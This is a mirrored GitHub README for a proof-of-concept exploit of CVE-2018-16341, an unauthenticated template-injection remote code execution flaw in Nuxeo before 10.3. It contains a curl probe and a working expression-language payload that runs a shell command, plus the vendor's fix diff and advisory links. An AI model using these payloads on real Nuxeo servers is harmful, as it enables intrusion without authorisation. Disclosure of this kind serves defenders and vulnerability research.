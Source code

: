 # CVE-2018-16341

CVE-2018-16341 - Nuxeo Remote Code Execution without authentication using Server Side Template Injection

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/mpgn](https://github.com/mpgn) |
| Url      | [https://github.com/mpgn/CVE-2018-16341](https://github.com/mpgn/CVE-2018-16341)                                               |
| Stars    | 25                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* rce* ssti

</details>

## Readme

# CVE-2018-16341

Nuxeo Authentication Bypass Remote Code Execution < 10.3 using a SSTI - CVE-2018-16341

![image](https://user-images.githubusercontent.com/5891788/53368219-6e272b00-3948-11e9-8e08-b919c6cf1bcd.png)

**Detailed analysis (not english)**:
- https://www.freebuf.com/vuls/193000.html
- https://blog.riskivy.com/nuxeo-rce-analysis-cve-2018-16341/

**Security Advisory**:
- https://github.com/nuxeo/nuxeo/commit/eb54a9145c6d8297eba9d7dafc74556e735fa388#diff-cf2094833ef0eea473d03bf6559f1798R97 

**Note**: The version of Nuxeo 9.x is not [supported anymore](https://www.nuxeo.com/legal/supported-versions/) by Nuxeo but a hotfix has been provided for the version 9.x. On my side, the version 9.10 was vulnerable.

---
### The vulnerability

This PoC exploit a Server Side Template Injection (SSTI) in order to achieve the RCE located in the file `NuxeoUnknownResource.java`

- To check if Nuxeo is vulnerable just send this payload and check for the number **49**:
```
curl http://127.0.0.1:8080/nuxeo/login.jsp/pwn${-7+7}.xhtml"
```

- Get the RCE using this payload:
```
${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("touch /tmp/pwn.txt",null).waitFor()}
```

---
Fix

```diff
@@ -94,8 +92,13 @@ public void connect() throws IOException {
 
             @Override
             public InputStream getInputStream() throws IOException {
+                String message = "ERROR: facelet not found";
+                // NXP-25746
+                if (Framework.isDevModeSet() && !path.contains("$") && !path.contains("#")) {
+                    message += " at '" + path + "'";
+                }
                 String msg = "<span><span style=\"color:red;font-weight:bold;\">"
-                        + StringEscapeUtils.escapeHtml4(errorMessage) + "</span><br/></span>";
+                        + StringEscapeUtils.escapeHtml4(message) + "</span><br/></span>";
                 return new ByteArrayInputStream(msg.getBytes());
             }
         }
```



## Get the content

```
git clone https://github.com/mpgn/CVE-2018-16341
cd CVE-2018-16341
```

{% embed url="https://github.com/mpgn/CVE-2018-16341" %}

<figure><img src="https://avatars.githubusercontent.com/u/5891788?v=4" alt=""><figcaption><p>mpgn</p></figcaption></figure>
